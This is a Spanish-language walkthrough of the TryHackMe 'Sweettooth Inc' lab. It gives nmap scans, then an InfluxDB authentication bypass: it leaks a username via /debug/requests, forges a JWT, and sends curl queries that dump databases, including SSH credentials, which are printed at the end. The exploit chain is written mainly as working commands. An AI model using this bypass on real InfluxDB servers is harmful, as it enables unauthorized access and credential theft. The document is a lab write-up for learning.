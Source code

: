 ```yaml
---
title: "sweettoothinc"
description: "sweettoothinc"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/sweettoothinc

# Fase de reconocimiento

## Buscar puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.113.250
````



## Reconocimiento de servicios

````
nmap -sCV -p111,2222,8086,50589 10.10.113.250
````



# Fase de ataque

Encontramos un 0day en InfluxDB reportado que consiste en lo siguiente:

1. Conseguimos el usuario

````
curl -k -X POST http://10.10.113.250:8086/debug/requests
````


2. Generating the token (JWT)
https://jwt.io

Ponemos el usuario y la fecha que no caduque epoch https://www.unixtimestamp.com/index.php?ref=unhackable.lol
3. Mandamos el Token para autenticarnos y hacer queries

````
curl -G -X POST 'http:/10.10.113.250:8086/query' --data-urlencode 'q=show users' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8'
````



````
curl -G -X POST 'http:/10.10.113.250:8086/query?db=tanks' --data-urlencode 'q=SELECT * FROM water_tank' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8' 
````

````
curl -G -X POST 'http:/10.10.113.250:8086/query?db=mixer' --data-urlencode 'q=SELECT MAX(motor_rpm) FROM mixer_stats' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8'
````

````
curl -G -X POST 'http:/10.10.113.250:8086/query?db=creds' --data-urlencode 'q=SELECT * FROM ssh' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNzE5MzU2NDM0fQ.2F_YbVAe08xLx0d6m1HHtiltDCVfQoyO3McKSBpaAF8'
````


Tenemos el usuario y contraseña de un usuario

Nos conectamos por ssh
7788764472    uzJk6Ry98d8C
